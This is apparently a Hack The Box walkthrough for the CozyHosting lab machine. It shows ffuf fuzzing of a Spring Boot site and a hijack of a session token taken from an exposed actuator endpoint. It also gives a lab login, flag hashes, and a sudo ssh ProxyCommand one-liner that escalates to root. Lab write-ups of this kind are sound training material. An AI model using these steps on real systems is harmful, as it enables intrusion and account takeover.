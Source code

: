 ### 07-Feb-24-Wed

[CozyHosting](https://app.hackthebox.com/machines/CozyHosting)

*Credits - https://youtu.be/vmsLvQUhBRI* **Walkthrough/Writup**

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9d28374e-abe1-408f-b2b9-c83c240aa5ec)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1f8c588d-5c72-4756-ba35-2d561735d978)

http://cozyhosting.htb/login

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ef15c62a-8d95-4fa9-be26-07291d5fa76f)

http://cozyhosting.htb/usersettings.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/980f8307-5273-4fa7-8069-d284293325bc)

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'http://cozyhosting.htb/FUZZ' -k
```

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt:FUZZ -u 'http://cozyhosting.htb/FUZZ' -k
```

http://cozyhosting.htb/actuator/sessions

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/250d89d3-d19d-4eba-8e00-c94f7d4f001e)

**Session Hijacking**

```
{"C6EC972292B31D51DD6CC2D76BA4E9BF":"kanderson"}
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/43bca6c5-09f9-4775-98aa-4e0c8252574e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/640c0a61-77ab-40f0-af4a-c91ca5053414)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fb1b81ea-bca0-4a96-8da7-f5efe74273b6)

```
{
"CDC486FA769DCE00A7422B65FD5A5618":"kanderson",
"1110D4636DBA4E9EC20507C98FC4CB7B":"UNAUTHORIZED",
"26DCF14037C4D76F6281F3F0851114AA":"UNAUTHORIZED",
"C923353C76138AE7A68DB1541BAE9FFE":"UNAUTHORIZED",
"370A276B6C913E8E8B9867D8E3FA9B36":"UNAUTHORIZED"
}
```

http://cozyhosting.htb/admin

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/37b097e9-6acd-4129-a5aa-aca637d72194)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/16d90589-9867-4e3e-8a65-5e9e04da0beb)

```
josh:manchesterunited
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c750b00c-3aae-43d4-98ec-4bc94d88b859)

```
78c1aed99b7896a1b606e9a85cdaf0da
```

https://gtfobins.github.io/gtfobins/ssh/#sudo

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c9b99ad3-4230-4901-9dcd-8e7d48949055)

```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

```
ce3b2403535175f8700b72b600d131c8
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/21cbdc44-cb74-4796-8787-22b45b1a323f)

